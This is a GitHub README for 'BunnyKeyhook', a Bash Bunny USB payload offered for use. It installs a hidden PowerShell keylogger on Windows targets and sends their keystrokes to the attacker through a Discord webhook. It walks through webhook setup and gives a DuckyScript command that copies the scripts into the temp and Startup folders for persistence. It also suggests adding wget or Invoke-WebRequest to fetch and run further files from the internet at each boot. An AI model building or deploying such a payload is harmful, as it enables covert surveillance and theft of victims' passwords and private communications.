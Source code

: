 # BunnyKeyhook
> Chris Taylor [Blue Cosmo]
---

```
      :::::::::  :::    ::: ::::    ::: ::::    ::: :::   ::: :::    ::: :::::::::: :::   ::: :::    :::  ::::::::   ::::::::  :::    ::: 
     :+:    :+: :+:    :+: :+:+:   :+: :+:+:   :+: :+:   :+: :+:   :+:  :+:        :+:   :+: :+:    :+: :+:    :+: :+:    :+: :+:   :+:   
    +:+    +:+ +:+    +:+ :+:+:+  +:+ :+:+:+  +:+  +:+ +:+  +:+  +:+   +:+         +:+ +:+  +:+    +:+ +:+    +:+ +:+    +:+ +:+  +:+     
   +#++:++#+  +#+    +:+ +#+ +:+ +#+ +#+ +:+ +#+   +#++:   +#++:++    +#++:++#     +#++:   +#++:++#++ +#+    +:+ +#+    +:+ +#++:++       
  +#+    +#+ +#+    +#+ +#+  +#+#+# +#+  +#+#+#    +#+    +#+  +#+   +#+           +#+    +#+    +#+ +#+    +#+ +#+    +#+ +#+  +#+       
 #+#    #+# #+#    #+# #+#   #+#+# #+#   #+#+#    #+#    #+#   #+#  #+#           #+#    #+#    #+# #+#    #+# #+#    #+# #+#   #+#       
#########   ########  ###    #### ###    ####    ###    ###    ### ##########    ###    ###    ###  ########   ########  ###    ###       
```

## Overview:
BunnyKeyhook is a BashBunny payload that uses PowerShell to log keystrokes. It will send the logs to you via discord. The keylogger almost gives you a "live feed" of their keystrokes through discord. However, you can tweak the timing to get the logs sent to you quick
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will execute *p.ps1* every minue
    - this can be changed to a preferred delay
- *uninstaller.cmd* uninstalls the payload from the target computer

## Resources:
- [YouTube Video](https://youtu.be/U74QqEa4GRc)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Windows Target

## Instructions:
**Create Discord Webhook**
1. create a discord server by clicking the plus button in the bottom left

![Create Server](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/create-server.png)

2. go into the `integrations` section in the server's settings
3. click `Webhooks`
![Integrations](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/integrations.png)

4. create a new webhook by clicking `New Webhook`
5. click `Copy Webhook URL` to copy the webhook URL
![Webhook](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/webhook.png)

**Set-Up/Installation**
1. in line 5 of *p.ps1*, replace `DISCORDWEBHOOK` with the webhook URL 
```powershell
$webhook = "DISCORDWEBHOOK"
```
2. in line 17 of *duckyscript.txt*, change `'BashBunny'` to the name of your Bash Bunny
3. in line 17 *duckyscript.txt*, change `switch1` to switch position that stores the paylaod
    - make sure to replace *all* appearances of `switch1` if you decide to change 
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name;cp .\payloads\switch1\p.ps1 $env:temp;cp .\payloads\switch1\l.ps1 $env:temp;cp .\payloads\switch1\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```

## Log Sending Delay
Changing the delay between log sends
1. in line 12 of *l.ps1*, change `60` to your preferred number of seconds
```powershell
Start-Sleep 60
```

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
